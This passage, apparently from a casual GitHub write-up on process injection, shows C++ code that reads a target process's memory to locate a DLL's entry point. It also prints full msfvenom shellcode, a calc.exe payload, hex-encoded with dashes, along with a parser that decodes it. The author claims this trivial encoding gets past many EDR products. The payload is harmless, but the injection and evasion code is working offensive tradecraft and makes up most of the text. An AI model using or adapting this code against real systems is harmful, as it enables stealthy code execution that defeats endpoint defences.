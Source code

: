 **Here's the code for everything I just explained:**

```cpp
// Extract PE entry point
BYTE peBuf[4096];
SIZE_T readBytes;
if (ReadProcessMemory(hProc, targetMod, peBuf, sizeof(peBuf), &readBytes) && readBytes >= sizeof(IMAGE_DOS_HEADER)) {
    auto dosHdr = reinterpret_cast<const IMAGE_DOS_HEADER*>(peBuf);
    if (dosHdr->e_magic == IMAGE_DOS_SIGNATURE) {
        auto ntHdr = reinterpret_cast<const IMAGE_NT_HEADERS*>(reinterpret_cast<const BYTE*>(dosHdr) + dosHdr->e_lfanew);
        if (ntHdr->Signature == IMAGE_NT_SIGNATURE) {
            void* entryPt = reinterpret_cast<void*>(reinterpret_cast<DWORD_PTR>(targetMod) + ntHdr->OptionalHeader.AddressOfEntryPoint);
            std::cout << "Entry point: 0x" << std::hex << entryPt << std::dec << "\n";
```

The Payload!
-

We can't forget our payload right?!  I mean, we've made it this far.  I've yet to even tell you about what I plan to load into the DLL entrypoint 😸  Well...surprise surprise.  It's once again the Windows Calculator lol.  I used msfvenom to generate it this time as I wanted to demonstrate how we can bypass a lot of EDR solution just applying some basic encoding to the shellcode beforehand.  Here's what it looks like.  My "encoding" is just hashes/dashes in-between the bytes lol.  How is the effective?  Seriously, this shouldn't work.  But it does a lot of the time 😆

```cpp
// Payload: calc.exe (hex-encoded)
const std::string payloadHex = "fc-48-83-e4-f0-e8-c0-00-00-00-41-51-41-50-52-51-56-48-31-d2-65-48-8b-52-60-48-8b-52-18-48-8b-52-20-48-8b-72-50-48-0f-b7-4a-4a-4d-31-c9-48-31-c0-ac-3c-61-7c-02-2c-20-41-c1-c9-0d-41-01-c1-e2-ed-52-41-51-48-8b-52-20-8b-42-3c-48-01-d0-8b-80-88-00-00-00-48-85-c0-74-67-48-01-d0-50-8b-48-18-44-8b-40-20-49-01-d0-e3-56-48-ff-c9-41-8b-34-88-48-01-d6-4d-31-c9-48-31-c0-ac-41-c1-c9-0d-41-01-c1-38-e0-75-f1-4c-03-4c-24-08-45-39-d1-75-d8-58-44-8b-40-24-49-01-d0-66-41-8b-0c-48-44-8b-40-1c-49-01-d0-41-8b-04-88-48-01-d0-41-58-41-58-5e-59-5a-41-58-41-59-41-5a-48-83-ec-20-41-52-ff-e0-58-41-59-5a-48-8b-12-e9-57-ff-ff-ff-5d-48-ba-01-00-00-00-00-00-00-00-48-8d-8d-01-01-00-00-41-ba-31-8b-6f-87-ff-d5-bb-e0-1d-2a-0a-41-ba-a6-95-bd-9d-ff-d5-48-83-c4-28-3c-06-7c-0a-80-fb-e0-75-05-bb-47-13-72-6f-6a-00-59-41-89-da-ff-d5-63-61-6c-63-2e-65-78-65-00";
auto shellBytes = parseShellcode(payloadHex);
```

**parseShellcode() takes my shellcode and removes the dashes**

```cpp
std::vector<BYTE> parseShellcode(const std::string& hexData) {
    std::vector<BYTE> bytes;
    size_t pos = 0;
    while (pos < hexData.length()) {
        if (hexData[pos] == '-') ++pos;
        if (pos + 1 < hexData.length()) {
            BYTE val = 0;
            sscanf_s(hexData.c_str() + pos, "%2hhx", &val);
            bytes.push_back(val);
            pos += 2;
        }
    }
    return bytes;
}
```
